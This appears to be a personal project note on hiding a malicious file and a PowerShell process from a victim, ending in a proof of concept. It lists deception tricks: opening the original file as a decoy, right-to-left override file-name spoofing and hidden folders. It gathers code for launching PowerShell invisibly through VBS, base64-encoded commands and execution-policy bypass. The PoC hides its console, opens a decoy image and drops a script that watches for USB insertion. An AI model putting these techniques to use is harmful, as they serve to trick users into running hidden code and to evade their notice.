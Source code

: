 ```yaml
---
tags:
  - Work
  - USB
  - CCK
banner:
banner: "![[binary-numbers-tunnel-1080p-hd-wallpaper-wallpapers-h-w-ibackgroundz.com.jpg]]"
---
```


# Ideas to hide files

## Hide original files

To hide the infection even after openen the file the following options are given:
1. When executing the manipulated file, open the original file to avoid raising suspicion.
2. When running the manipulated file, replace itself with the original file.

Left-To-Right overwrite Unicode character: 202E


### ==Additional data Streams==

### Hidden folder
1. create a new hidden Folder
2. replace picture and name of folder with invisible ones


## Hide powershell console

https://stackoverflow.com/questions/40617800/opening-powershell-script-and-hide-command-prompt-but-not-the-gui
Hiding the console for .ps1 files when openen with gui 
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'

function Show-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()

    # Hide = 0,
    # ShowNormal = 1,
    # ShowMinimized = 2,
    # ShowMaximized = 3,
    # Maximize = 3,
    # ShowNormalNoActivate = 4,
    # Show = 5,
    # Minimize = 6,
    # ShowMinNoActivate = 7,
    # ShowNoActivate = 8,
    # Restore = 9,
    # ShowDefault = 10,
    # ForceMinimized = 11

    [Console.Window]::ShowWindow($consolePtr, 4)
}

function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
```

To hide the console with this code, all you need to do is call `Hide-Console`. Since you already have code in the `Shown` event (`$objForm.Add_Shown`) we can simply add another line to call the command:
```powershell
$objForm.Add_Shown({
    $objForm.Activate()
    Hide-Console
})
```

---

https://stackoverflow.com/questions/1802127/how-to-run-a-powershell-script-without-displaying-a-window
I add this code in the beginning of all my PowerShell scripts that I need to run in background.
```powershell
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
```

---

Create a shortcut that calls the PowerShell script and set the Run option to Minimized. This will prevent a window from flashing although you will still get a momentary blip of the script running on the Task Bar.

---

Make a vbs script to run a hidden batch file which launches the powershell script. Seems silly to make 3 files for this task but atleast the total size is less than 2KB and it runs perfect from tasker or manually (you dont see anything).

**scriptName.vbs**

```vbs
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "C:\Users\leathan\Documents\scriptName.bat" & Chr(34), 0
Set WinScriptHost = Nothing
```

**scriptName.bat**

```batch
powershell.exe -ExecutionPolicy Bypass C:\Users\leathan\Documents\scriptName.ps1
```

**scriptName.ps1**

```powershell
Your magical code here.
```

---

A single vbs file solution. You first have to convert your ps script to base64 string, place it in a variable in the template shown below and save it as I vbs file. Runs without powershell popppring up.

```vbs
dim EncodedCommand
EncodedCommand = "COMMAND"

pSCmd = "powershell.exe -noexit -windowstyle Hidden -executionpolicy bypass -encodedcommand " & EncodedCommand

CreateObject("WScript.Shell").Run pSCmd, 0, True
```
---

# PoC

The Script can be executed through a shortcut with the following options:
```
powershell.exe -executionpolicy bypass -noexit -windowstyle hidden
```
additionally should the run option be set to Minimized and the Icon and Name has to be changed.

Script to start a sub process that listenes to newly inserted USB devices.
```
# .Net methods for hiding/showing the console in the background
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
'
function Hide-Console
{
    $consolePtr = [Console.Window]::GetConsoleWindow()
    #0 hide
    [Console.Window]::ShowWindow($consolePtr, 0)
}
Hide-Console
$Script = @'
    $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
    $DeviceCount= $Devices.Count
    while ($Devices.Count -le $DeviceCount) {
        Write-Host "Waiting for USB devices to be connected..."
        $Devices = Get-PnpDevice -PresentOnly | Where-Object { $_.InstanceId -match '^USB' }
        Start-Sleep -Seconds 0.1
    }
    Stop-Process -ID $PID
'@
Start-Process hacker.jpg

Remove-Item -Path "C:\Users\Public\Documents\test.ps1" -Force
New-Item -Path "C:\Users\Public\Documents\test.ps1" -ItemType "file" -Value $Script
Start-Process powershell.exe -ArgumentList "-noexit", "C:\Users\Public\Documents\test.ps1" #-WindowStyle Hidden 
```
